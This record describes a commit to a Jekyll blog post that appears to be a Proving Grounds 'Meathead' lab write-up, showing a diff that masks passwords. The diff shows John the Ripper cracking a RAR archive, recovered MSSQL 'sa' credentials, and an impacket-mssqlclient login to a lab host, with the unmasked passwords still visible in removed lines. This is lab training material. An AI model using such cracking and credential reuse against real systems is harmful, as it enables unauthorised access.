

Before and after one commit to zukoma/old_homepage, a Jekyll site: the page built from _posts/2022-11-13-PG-Meathead.md, in a window 1280 px wide and 1400 px high, scrolled down 4636 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Adding meatheat post

````diff
--- a/_posts/2022-11-13-PG-Meathead.md
+++ b/_posts/2022-11-13-PG-Meathead.md
@@ -178,7 +178,7 @@
 Will run 4 OpenMP threads
 Press 'q' or Ctrl-C to abort, almost any other key for status
 0g 0:00:02:32 0.44% (ETA: 15:23:03) 0g/s 499.2p/s 499.2c/s 499.2C/s jesus89..isaiah04
-letmeinplease    (MSSQL_BAK.rar)
+letme*******   (MSSQL_BAK.rar)
 1g 0:00:04:39 DONE (2022-11-13 05:53) 0.003580g/s 497.5p/s 497.5c/s 497.5C/s lily03..lerner
 Use the "--show" option to display all of the cracked passwords reliably
 Session completed.
@@ -189,7 +189,7 @@
 ```
 └─$ cat mssql_backup.txt
 Username: sa
-Password: EjectFrailtyThorn425
+Password: Eject******
 ```
 
 
@@ -198,7 +198,7 @@
 Using credentials from FTP I was able to get command execution
 
 ```
-└─$ impacket-mssqlclient sa:EjectFrailtyThorn425@192.168.209.70 -port 1435
+└─$ impacket-mssqlclient sa:Eject****@192.168.209.70 -port 1435
 Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
 
 [*] Encryption required, switching to TLS
````
